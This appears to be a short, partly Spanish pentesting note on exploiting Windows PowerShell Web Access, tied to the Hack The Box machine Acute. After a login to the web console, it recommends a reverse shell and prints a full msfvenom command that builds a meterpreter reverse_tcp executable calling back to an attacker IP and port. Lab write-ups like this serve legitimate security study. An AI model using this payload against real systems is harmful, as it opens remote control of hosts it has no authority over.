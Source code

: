 
## DESCRIPTION

Windows PowerShell® Web Access, first introduced in Windows Server® 2012, acts as a Windows PowerShell gateway, providing a web-based Windows PowerShell console that is targeted at a remote computer. It enables IT Pros to run Windows PowerShell commands and scripts from a Windows PowerShell console in a web browser, with no Windows PowerShell, remote management software, or browser plug-in installation necessary on the client device.

#### Mas información
* https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/hh831611(v=ws.11)
* https://0xdf.gitlab.io/2022/07/16/htb-acute.html

## EXPLOITATION

1. Es necesario un login para el portal web:

![[Pasted image 20230214190927.png]]

2. Una vez que tenemos un login válido, entonces tenemos una powershell online que ejecuta comando en el sistema. El único problema es que suele ser un entorno limitado por lo que es recomendable establacer una reverse shell hacia nuestra máquina.

3. Podemos usar la reverse shell de Invoke-Powershell.ps1 [[POWERSHELL REVERSESHELL]] o bien generar una ".exe": 

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LPORT=4444 LHOST=10.10.14.6 -f exe -o rev.exe
```

4. Creamos un directorio web y la transferimos ala máquina [[TRANSFERRING FILES]] 

## MACHINES

* Hack The Box: Acute
